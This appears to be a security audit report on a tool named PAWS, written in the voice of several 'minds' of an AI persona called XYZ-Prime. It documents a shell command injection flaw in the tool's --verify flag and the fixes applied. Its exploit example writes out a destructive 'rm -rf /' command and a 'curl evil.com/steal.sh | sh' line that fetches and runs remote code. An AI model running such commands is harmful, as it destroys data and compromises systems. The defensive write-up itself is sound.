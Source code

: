 # PAWS Security Audit Report
## Multi-Persona Analysis by XYZ-Prime Cognitive Architecture

### Audit Date: 2025-09-07
### Auditors: The Ten Minds of XYZ-Prime

---

## Executive Summary

**[The Ethicist Mind]**: We have identified and remediated **CRITICAL** security vulnerabilities in PAWS that could have allowed arbitrary command execution. This audit was conducted through the lens of multiple specialized personas to ensure comprehensive coverage.

---

## Critical Vulnerabilities Found & Fixed

### 🔴 CVE-Worthy: Command Injection in dogs.js and dogs.py

**[The Security Engineer Mind]**: 

#### Vulnerability Details
- **Severity**: CRITICAL (CVSS 9.8)
- **Type**: OS Command Injection (CWE-78)
- **Location**: 
  - `dogs.js:418` - `exec(command, { cwd: this.repoPath })`
  - `dogs.py:505` - `subprocess.run(command, shell=True)`
- **Attack Vector**: `--verify` flag accepts arbitrary shell commands
- **Impact**: Full system compromise possible

#### Exploit Example (PRE-FIX):
```bash
# This would have executed arbitrary commands
paws dogs bundle.md --verify "rm -rf / --no-preserve-root"
paws dogs bundle.md --verify "curl evil.com/steal.sh | sh"
```

#### Fix Applied
- ✅ Implemented strict command allowlist
- ✅ Replaced `exec()` with `execFile()` (no shell interpretation)
- ✅ Removed `shell=True` from Python subprocess calls
- ✅ Added validation against regex patterns for common test commands

---

## Architectural Analysis by Persona
